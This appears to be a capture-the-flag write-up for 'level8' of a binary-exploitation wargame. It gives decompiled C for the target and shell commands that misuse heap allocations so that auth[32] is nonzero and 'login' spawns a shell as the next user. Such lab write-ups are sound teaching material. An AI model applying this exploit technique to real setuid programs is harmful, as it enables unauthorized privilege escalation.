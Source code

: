 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level7](../level7/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level9 →](../level9/solution.md)
</span>
</span>

level8
======

Decompilation
-------------

Because the main function is a bit more complex than usual, I used ghidra to decompile it.
The main function looks like this:
```c
#include <stdlib.h>
#include <stdint.h>
#include <stdbool.h>
#include <stdio.h>
#include <string.h>

typedef struct	obj
{
	char	*auth;
	char	*service;
}				obj_t;

obj_t			obj;

int				main(void)
{
	char	input_buffer [132];

	while (true) {
		printf("%p, %p \n", obj.auth, obj.service);

		if (!fgets(input_buffer, 128, stdin))
			return 0;

		if (!strncmp(input_buffer, "auth ", 5)) {
			obj.auth = malloc(4);

			*obj.auth = '\0';

			if (strlen(input_buffer + 5) < 30)
				strcpy(obj.auth, input_buffer + 5);
		}

		if (!strncmp(input_buffer, "reset", 5))
			free(obj.auth);

		if (!strncmp(input_buffer, "service", 6))
			obj.service = strdup(input_buffer + 7);

		if (!strncmp(input_buffer, "login", 5)) {
			if (obj.auth[32] == '\0')
				fwrite("Password:\n", 1, 10, stdout);
			else
				system("/bin/sh");
		}
	}
}
```

Exploitation
------------

We need to set the byte at obj.auth[32] to any value other than 0.
If we call service multiple times, we may copy something at this offset.
Service will copy the bytes following the service command, which will be '\n' in our case.

After callig auth followed by service, the memory layout looks like this:
```sh
./level8 <<< $'auth AAAA\nservice'
```
```c
(nil), (nil)
0x93265c0, (nil)
0x93265c0, 0x93265d0
```
|  auth  |      | service |      |
|:------:|:----:|:-------:|:----:|
|  0x00  | 0x04 |   0x10  | 0x14 |
| "AAAA" |      | "\n"    |      |

If we call service a second time we should be able to copy "\n" to obj.auth[32].
```sh
./level8 <<< $'auth \nservice\nservice'
```
```c
(nil), (nil)
0x87305c0, (nil)
0x87305c0, 0x87305d0
0x87305c0, 0x87305e0
```
Indeed, 0x87305e0 - 0x87305c0 = 0x20 = 32.

Let's try to call login:
```sh
(echo -e 'auth \nservice\nservice\nlogin'; cat) | ./level8
```
```
0x804a008, (nil)
0x804a008, 0x804a018
0x804a008, 0x804a028
```

```sh
whoami
```
```
level9
```
